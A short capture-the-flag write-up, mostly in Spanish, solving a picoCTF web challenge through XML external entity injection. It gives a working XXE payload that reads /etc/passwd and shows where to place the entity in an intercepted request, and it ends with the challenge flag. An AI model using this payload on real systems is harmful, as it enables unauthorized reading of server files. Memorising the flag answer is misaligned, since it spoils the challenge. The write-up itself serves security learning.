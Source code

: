 The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

Additional details will be available after launching your challenge instance.

Hints:
- XML external entity Injection

## Solución
Hay que usar un proxy e interceptar la petición al solicitar más información de cualquier universidad.
En la parte del xml, hay que ingresar el siguiente payload:
```
<!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
```
Y colocar `&xxe;` dentro del tag `ID` de la etiqueta de data.
Hay muchos más payloads, esto es `Inyección XML` o `XXE`

`picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}`